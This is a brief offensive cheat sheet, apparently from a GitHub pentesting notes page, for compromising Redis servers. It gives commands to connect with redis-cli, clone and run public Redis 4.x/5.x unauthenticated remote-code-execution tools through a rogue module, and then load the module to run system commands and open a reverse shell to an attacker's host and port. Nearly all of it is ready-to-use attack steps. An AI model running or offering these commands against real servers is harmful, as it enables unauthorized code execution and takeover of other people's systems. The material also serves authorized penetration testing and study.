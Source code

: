 # Redis

- Authenticate Redis
```
redis-cli -h 192.168.181.69 -p 6379
```


## Redis 4.x / 5.x - Unauthenticated Code Execution [linux/redis/redis_replication_cmd_exec]

```
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
python3 redis-rce.py -r <remote-ip> -p <port> -L <local-ip> -f ../RedisModules-ExecuteCommand/module.so
```

## Load Module

```
MODULE LOAD /path/to/module.so
system.exec "whoami"
system.rev LHOST LPORT
```
[HINT](https://www.youtube.com/watch?v=LlzpyGcA-ak&ab_channel=Tech69)
